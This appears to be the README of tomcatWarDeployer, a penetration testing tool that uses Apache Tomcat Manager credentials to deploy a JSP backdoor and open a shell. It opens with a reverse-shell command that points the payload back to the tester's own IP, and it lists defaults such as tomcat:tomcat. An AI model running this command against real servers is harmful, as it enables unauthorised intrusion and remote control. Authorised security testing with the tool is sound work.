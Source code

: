# How to get reverse shell
- You need the Tomcat manager's credentials
```python
  python3 tomcatWarDeployer.py -v -x -U <username> -P <password> -p <port> -H <YOUR IP> <Tomcat SERVER IP>:8080
```

## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

The tool offers couple of handy features - like manager's panel lookup logic, support for CVE-2007-1860 double encoding issue, CSRF handling in newer Tomcat's.

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    tomcatWarDeployer (v. 0.5)
    Apache Tomcat auto WAR deployment & launching tool
    Mariusz Banach / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server    Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
```